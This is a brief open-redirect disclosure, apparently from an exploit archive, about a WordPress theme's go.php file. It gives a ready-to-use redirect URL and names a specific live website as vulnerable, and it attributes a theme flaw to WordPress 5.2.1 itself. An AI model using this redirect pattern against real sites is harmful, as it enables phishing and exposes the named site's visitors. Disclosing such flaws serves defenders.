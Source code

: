 # issue_20190526_1
WordPress_5.2.1_Open_Redirection
# Vulnerable File :
*****************
/go.php

# Example Vulnerable Sites :
*************************
[+] healingme.ca/wp-content/themes/planer/go.php?https://cxsecurity.com/
# Vulnerable Parameters :
***********************
# Open Redirection Exploit :
**************************
/wp-content/themes/planer/go.php?http://www.[REDIRECTIONADDRESS].gov

